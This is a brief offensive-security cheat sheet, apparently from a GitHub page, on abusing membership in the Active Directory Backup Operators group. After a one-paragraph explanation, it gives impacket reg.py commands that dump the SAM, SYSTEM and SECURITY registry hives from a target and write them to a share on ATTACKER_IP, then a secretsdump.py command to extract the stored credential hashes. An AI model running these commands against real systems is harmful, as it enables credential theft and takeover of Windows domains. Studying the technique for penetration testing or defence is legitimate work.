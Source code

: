 
**Backup Operators** is a built-in group in Active Directory environments that grants members the ability to back up and restore files, regardless of file permissions. Members of this group can bypass NTFS permissions to perform backup and restore operations on the system.

```bash
reg.py domain/user:password@target save -keyName 'HKLM\SAM' -o '\\ATTACKER_IP\share'
reg.py domain/user:password@target save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\share'
reg.py domain/user:password@target save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\share'
```

Then extract the information:

```bash
secretsdump.py -sam SAM.save -security SECURITY.save -system SYSTEM.save LOCAL
```


